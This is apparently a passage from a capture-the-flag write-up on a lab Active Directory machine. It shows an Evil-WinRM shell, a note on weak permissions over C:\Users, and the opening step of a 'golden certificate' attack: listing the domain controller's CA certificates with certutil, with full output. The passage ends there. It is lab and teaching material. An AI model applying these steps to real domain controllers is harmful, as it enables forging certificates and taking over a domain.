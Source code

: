 ```
*Evil-WinRM* PS C:\Users\Ryan.K\Documents> 
```

`BUILTIN\Users:(OI)(CI)(F)` — All normal users have Full Control over `C:\Users`


List all certificates in the "My" certificate store (also known as the Personal store) for the current user.


### Golden Certificate Attack

List all certificates in the My (Personal) certificate store for the current user:

```
certutil -store my
```
```
*Evil-WinRM* PS C:\Users\Ryan.K\Documents> certutil -store my
my "Personal"
================ Certificate 0 ================
Archived!
Serial Number: 472cb6148184a9894f6d4d2587b1b165
Issuer: CN=certificate-DC01-CA, DC=certificate, DC=htb
 NotBefore: 11/3/2024 3:30 PM
 NotAfter: 11/3/2029 3:40 PM
Subject: CN=certificate-DC01-CA, DC=certificate, DC=htb
CA Version: V0.0
Signature matches Public Key
Root Certificate: Subject matches Issuer
Cert Hash(sha1): 82ad1e0c20a332c8d6adac3e5ea243204b85d3a7
  Key Container = certificate-DC01-CA
  Unique container name: 6f761f351ca79dc7b0ee6f07b40ae906_7989b711-2e3f-4107-9aae-fb8df2e3b958
  Provider = Microsoft Software Key Storage Provider
Signature test passed

================ Certificate 1 ================
Serial Number: 5800000002ca70ea4e42f218a6000000000002
Issuer: CN=Certificate-LTD-CA, DC=certificate, DC=htb
 NotBefore: 11/3/2024 8:14 PM
 NotAfter: 11/3/2025 8:14 PM
Subject: CN=DC01.certificate.htb
Certificate Template Name (Certificate Type): DomainController
Non-root Certificate
Template: DomainController, Domain Controller
Cert Hash(sha1): 779a97b1d8e492b5bafebc02338845ffdff76ad2
  Key Container = 46f11b4056ad38609b08d1dea6880023_7989b711-2e3f-4107-9aae-fb8df2e3b958
  Simple container name: te-DomainController-3ece1f1c-d299-4a4d-be95-efa688b7fee2
  Provider = Microsoft RSA SChannel Cryptographic Provider
Private key is NOT exportable
Encryption test passed

================ Certificate 2 ================
Serial Number: 75b2f4bbf31f108945147b466131bdca
Issuer: CN=Certificate-LTD-CA, DC=certificate, DC=htb
 NotBefore: 11/3/2024 3:55 PM
 NotAfter: 11/3/2034 4:05 PM
Subject: CN=Certificate-LTD-CA, DC=certificate, DC=htb
Certificate Template Name (Certificate Type): CA
CA Version: V0.0
Signature matches Public Key
Root Certificate: Subject matches Issuer
Template: CA, Root Certification Authority
Cert Hash(sha1): 2f02901dcff083ed3dbb6cb0a15bbfee6002b1a8
  Key Container = Certificate-LTD-CA
  Unique container name: 26b68cbdfcd6f5e467996e3f3810f3ca_7989b711-2e3f-4107-9aae-fb8df2e3b958
```